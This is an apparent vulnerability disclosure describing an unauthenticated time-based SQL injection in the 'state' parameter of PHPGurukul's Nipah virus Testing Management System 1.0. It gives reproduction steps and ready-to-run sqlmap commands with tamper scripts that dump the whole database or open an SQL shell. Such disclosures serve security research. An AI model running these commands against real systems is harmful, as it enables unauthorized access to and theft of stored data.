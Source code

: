 ## SQL Injection at state 


**Bug Description:**

An unauthenticated Time-Based SQL injection found in PHPGurukul Nipah virus (NiV) – Testing Management System 1.0 via POST parameter state allows a remote attacker to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database.

**Steps to Reproduce:** 

```
# Exploit Title: Unauthenticated Time-Based SQL injection found in PHPGurukul Nipah virus (NiV) – Testing Management System 1.0
# Date: 22-10-2023
# Exploit Author: rumble773
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/nipah-virus-niv-testing-management-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome
# CVE : 
```

To reproduce:

1- Start BurpSuite.
2- Head to the `nipah-tms/new-user-testing.php` endpoint.
3- Fill the information all in normal way and make sure to capture the request using BurpSuite or any other tool.
4- Save the request to a txt file. 
5- Using the sqlmap utility you can export the whole database or spawn a sql shell 

Commands: 
```
sqlmap -r state.req -v 0 --level 2 --risk 2 --dbms mysql --tamper space2comment,randomcase -p state --dump --batch
sqlmap -r state.req -v 0 --level 2 --risk 2 --dbms mysql --tamper space2comment,randomcase -p state --sql-shell --batch
```


POC:
![image](https://github.com/rumble773/sec-research/assets/76521427/4bcafe29-9e00-4e3e-b153-8b60e0cd6983)

